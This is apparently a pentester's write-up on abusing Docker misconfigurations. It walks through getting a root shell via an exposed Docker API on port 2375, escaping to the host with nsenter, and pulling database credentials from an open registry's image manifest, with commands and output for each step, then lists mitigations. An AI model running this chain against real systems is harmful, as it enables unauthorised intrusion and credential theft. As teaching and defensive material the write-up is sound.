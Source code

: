 # Abusing docker misconfiguration
I took advantage of chained misconfiguration to escape the container and get access to host OS
## First misconfiguration
The container was externally exposed

    nmap -sV -p 2375 192.168.1.100
    ...
    PORT     STATE SERVICE VERSION
    2375/tcp open  docker  Docker 20.10.20 (API 1.41)
    Service Info: OS: linux
Find remote running containers

    docker -H tcp://192.168.1.100:2375 ps                             
    CONTAINER ID   IMAGE     ...   
    2225bfdee7ec   devsrv01  ...       

Get a shell inside the remote container

    docker -H tcp://192.168.1.100:2375 exec -it 2225bfdee7ec /bin/bash
    root@2225bfdee7ec:/etc/ssh#     
## Inspect the container

    root@2225bfdee7ec:/etc/ssh# ps aux
    USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
    root           1  0.0  0.5 102540 11388 ?        Ss   13:14   0:03 /sbin/init
    ...
There are a total of 191 running process, very strange for a container: maybe the container is sharing the same namespace with the host OS? That would imply the container can communicate with the processes on the host.

## Abusing the second misconfiguration: shared host namespace
Here we are abusing <b>nsenter</b> command, that allows us to execute a processes in a differen namespace. 
In this scenario, since the container can see the <i>/sbin/init</i> process on the host machine, we can try to execute a shell on the host context. Let's give it a try: 

    root@2225bfdee7ec:/etc/ssh# hostname
    2225bfdee7ec
    root@2225bfdee7ec:/etc/ssh# nsenter --target 1 --mount --uts --ipc --net /bin/bash
    root@xxxxx.local:/# whoami
    root
And here we are!
For more information on the nsenter (namespace enter) command you can consult the related manual.

## Mitigations
Protect Docker daemon socket. To accomplish that you can:
1. Don't expose it
2. [Use SSH](https://docs.docker.com/engine/security/protect-access/#use-ssh-to-protect-the-docker-daemon-socket)
3. [Use TLS\HTTPS](https://docs.docker.com/engine/security/protect-access/#use-tls-https-to-protect-the-docker-daemon-socket). More information using [Self-signed certificates](https://gist.github.com/nicosingh/d8bf0defdd4c911bda3392e420d665dd)
4. Don't run containers in <b>privileged mode</b>. It's recommended assigning specific capabilities to a container, rather than running it with the --privileged flag. More info about capabilities [here](https://docs.docker.com/engine/security/#linux-kernel-capabilities).
5. Scan you docker images. Some toools are: docker scout, grype

## A final note
Actually I faced this scenario in a real engagement.

## Abuse Docker Registry to get repo manifest
### Discover

     nmap -sV docker-srv.local
     ...
     PORT     STATE SERVICE VERSION
    ...
    5000/tcp open  http    Docker Registry (API: 2.0)
    7000/tcp open  http    Docker Registry (API: 2.0)

### List all registered repo for the second registry

    curl http://docker-srv.local:7000/v2/_catalog
    {"repositories":["app01/webserver"]}

### List all tags related to the repo

    curl http://docker-srv.local:7000/v2/app01/webserver/tags/list
    {"name":"app01/webserver","tags":["prod"]}

### Get the related manifest file for the tag

    curl http://docker-srv.local:7000/v2/app01/webserver/manifests/prod
    ...
    {
       "schemaVersion": 1,
       "name": "app01/webserver",
       "tag": "prod",
       "architecture": "amd64",
       "fsLayers": [
          {
             "blobSum": "sha256:7a668bba7a1a84d9db8a2fb2826f777e64233780a110041db8d42b77515cf57"
          },
    ....
    "history": [
      {
         "v1Compatibility": "{\"architecture\":\"amd64\",\"config\":{\"Hostname\":\"\",\"Domainname\":\"\",\"User\":\"\",\
         ...
         "printf \\\"Username: admin\\\\nPassword: _admin\\\\n\\\" \\xxxxxxx /var/www/html/database.config\"],\"Image\":\"sha256:1e4a2d11384ed8ac500f2762825c3f3d134ad5d78813a5d044357b66d4c91800\",\"Volumes\":null,\"WorkingDir\":\"\",\"Entrypoint\"
         ....

Above we can see that we retrived the credentials for the a DB, from the history
